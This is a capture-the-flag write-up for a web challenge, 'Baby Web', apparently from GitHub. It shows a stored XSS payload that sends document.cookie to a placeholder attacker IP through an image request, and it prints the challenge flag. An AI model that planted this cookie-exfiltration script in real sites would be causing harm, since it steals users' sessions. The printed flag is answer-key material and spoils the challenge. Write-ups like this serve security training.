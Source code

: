 # CTF Challenge Writeup: Baby Web

## Challenge Information

**- Name:** Baby Web
**- Category:** Web
**- Points:** 50
**- Description:** This website seems to have an issue. Let's report it to the admins.
**- Files:** [dist.zip](files/babyweb-dist.zip)

![BabyWeb-1.png](img/BabyWeb-1.png)

## Challenge Analysis

The description hints towards a CSRF or XSS attack vector.

## Solution

### Step 1: Enumeration

The web page is fairly simple, no fuzzing/crawling/spidering is needed:

![BabyWeb-2.png](img/BabyWeb-2.png)

It states that admins with **special cookies** will look at each submission, if these cookies are misconfigured we might be able to exfiltrate them with a XSS attack.

### Step 2: Design and Inject JavaScript

I've used the easiest XSS trick in the book, URL encode all the cookies and send them to my own server via a GET request in an image:
```javascript
<script>
        var i = new Image();
        i.src = "http://XXX.XXX.XXX.XXX/?exfil=" + escape(document.cookie);
</script>
```


### Step 3: Get the cookie from my `access.log`

![BabyWeb-3.png](img/BabyWeb-3.png)

The cookie is the flag, no further steps required!

## Flag

`grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c}`

## Conclusion

Don't forget the KISS principle!
Keep It Simple Stupid!

## Writeup Author

- Twitter: [@Cyber8RU7U5](https://twitter.com/Cyber8RU7U5)
- GitHub: [Cyber8RU7U5](https://github.com/Cyber8RU7U5)

